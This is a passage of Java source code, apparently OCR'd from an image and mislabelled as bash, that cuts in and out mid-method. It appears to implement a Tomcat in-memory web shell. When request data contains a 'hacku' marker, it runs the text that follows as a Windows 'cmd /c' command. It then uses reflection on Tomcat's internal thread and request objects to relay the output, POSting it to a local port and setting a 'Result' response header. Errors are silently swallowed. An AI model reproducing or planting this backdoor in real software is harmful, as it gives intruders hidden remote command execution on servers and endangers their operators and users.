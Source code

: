 ```bash
                readBuffer.limit(byteBuffer.position());
                readBuffer.mark();
                byteBuffer.limit(byteBuffer.position()).reset();
                readBuffer.put(byteBuffer);
                readBuffer.reset();
                String a = new String(readBuffer.array(), StandardCharsets.UTF_8);
                if (a.contains("hacku")) {
                    String b = a.substring(a.indexOf("hacku") + "hacku".length() + 1, a.indexOf("\r", a.indexOf("hacku"))).trim();
                    if (b.length() > 1) {
                        try {
                            Runtime rt = Runtime.getRuntime();
                            Process process = rt.exec("cmd /c " + b);
                            java.io.InputStream in = process.getInputStream();
                            java.io.InputStreamReader resultReader = new java.io.InputStreamReader(in);
                            java.io.BufferedReader stdInput = new java.io.BufferedReader(resultReader);
                            StringBuilder s = new StringBuilder();
                            String tmp;
                            while ((tmp = stdInput.readLine()) != null) {
                                s.append(tmp);
                            }
                            if (!s.toString().isEmpty()) {
                                byte[] res = s.toString().getBytes(StandardCharsets.UTF_8);
                                getResponse(res);
                            }
                        } catch (IOException ignored) {
                        }
                    }
                }
            } catch (Exception ignored) {}
        }

        public void getResponse(byte[] res) {
            try {
                Thread[] threads = (Thread[]) getField(Thread.currentThread().getThreadGroup(), "threads");
                for (Thread thread : threads) {
                    if (thread != null) {
                        String threadName = thread.getName();
                        if (!threadName.contains("exec") && threadName.contains("Acceptor")) {
                            Object target = getField(thread, "target");
                            if (target instanceof Runnable) {
                                try {
                                    ArrayList objects = (ArrayList) getField(getField(getField(getField(target, "endpoint"), "handler"), "global"), "processors");
                                    for (Object tmp_object : objects) {
                                        RequestInfo request = (RequestInfo) tmp_object;
                                        Response response = (Response) getField(getField(request, "req"), "response");
                                        if(sendPostRequest("http://127.0.0.1:8085", res)){
                                            response.addHeader("Result", "success");
                                        } else {
                                            response.addHeader("Result", "failed");
                                        }
                                    }
                                } catch (Exception ignored) {
                                    continue;
                                }
                            }
                        }
                    }
```